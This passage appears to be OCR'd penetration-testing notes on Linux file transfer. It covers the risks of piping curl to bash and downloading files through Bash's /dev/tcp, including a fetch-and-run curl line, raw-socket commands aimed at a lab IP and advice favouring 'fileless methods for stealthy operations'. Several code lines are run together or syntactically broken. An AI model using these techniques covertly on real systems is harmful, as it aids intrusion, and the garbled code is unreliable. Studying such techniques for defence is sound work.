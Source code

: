     - Download the script first and review its content before execution:
        ```bash
        curl -O http://example.com/bash.sh less bash.sh  # Inspect the script bash bash.sh  # Run only if safe
        ```
        
3. **Use Signing or Hash Verification**
    
    - Verify the script using a checksum or GPG signature provided by the source.
4. **Use Minimal Privileges**
    
    - Avoid running the script as root unless necessary.
5. **Sandbox Testing**
    
    - Test the script in a virtual machine or container before running it on production systems.

---

### Summary

The `curl http://example.com/bash.sh | bash` approach is convenient but risky. It should only be used with trusted sources and proper security measures in place. A safer alternative is to download and inspect the script first before execution.
#### Key Takeaway

- Leverage fileless methods for stealthy operations, but understand their limitations and the potential for residual artifacts.

## Download with Bash (/dev/tcp)
- In situations where no well-known file transfer tools (e.g., `wget`, `curl`, `scp`) are available, Bash itself can be used to transfer files.
- This method relies on the `/dev/TCP` device file, which is supported if Bash version **2.04** or greater is installed and compiled with the `--enable-net-redirections` option.

#### Requirements

1. Bash version **2.04** or later.
2. Bash must be compiled with `--enable-net-redirections`.

#### Using `/dev/TCP` for File Downloads

- The `/dev/TCP` file allows Bash to make raw network connections for sending or receiving data.
- Example: Downloading a file using `/dev/TCP`.

```bash
exec 3<> /dev/tcp/<server>/<port>
echo -e "GET /path/to/file HTTP/1.1\r\nHost: <server>\r\nConnection: close\r\n\r\n" >&3 cat <&3 > downloaded_file
exec 3>&
```
#### Connect to the Target Webserver
```bash
exec 3>?/dev/tcp/10.10.10.32/80
```
